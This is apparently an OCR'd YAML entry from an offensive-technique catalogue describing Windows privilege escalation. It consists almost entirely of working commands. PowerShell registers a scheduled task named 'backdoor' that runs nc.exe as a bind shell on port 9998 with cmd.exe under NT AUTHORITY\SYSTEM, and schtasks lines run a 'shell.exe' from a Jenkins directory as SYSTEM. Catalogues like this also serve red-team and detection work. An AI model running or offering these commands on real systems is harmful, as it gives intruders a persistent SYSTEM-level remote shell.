 ```yaml
---
functions:
  privilege-escalation:
    - description: Use Windows Scheduler to elevate permissions to SYSTEM via a backdoor
      code: |
        Unregister-ScheduledTask -TaskName "backdoor"
        $filepath = "C:\users\admin\documents\nc.exe"
        $port = "9998"
        $taskname = "backdoor"
        $time = "1:57"
        $action = New-ScheduledTaskAction -Execute $filepath -argument "-l -p $port -e cmd.exe"
        $trigger = New-ScheduledTaskTrigger -At $time -Once
        $principal = New-ScheduledTaskPrincipal -UserId 'NT AUTHORITY\SYSTEM' -RunLevel Highest
        $settings = New-ScheduledTaskSettingsSet
        $task = New-ScheduledTask -Action $action -Principal $principal -Trigger $trigger -Settings $settings
        Register-ScheduledTask $taskname -InputObject $task


        View task:
        Get-ScheduledTask -TaskName backdoor

        Run Task:
        Start-ScheduledTask -TaskName backdoor


        schtasks /CREATE /RU "NT AUTHORITY\SYSTEM" /SC once /TR "C:\Program Files (x86)\Jenkins\shell.exe" /ST 01:57 /TN backdoor /RL HIGHEST /F
        schtasks /QUERY /TN backdoor
        schtasks /RUN /TN backdoor


resources : |

---
```


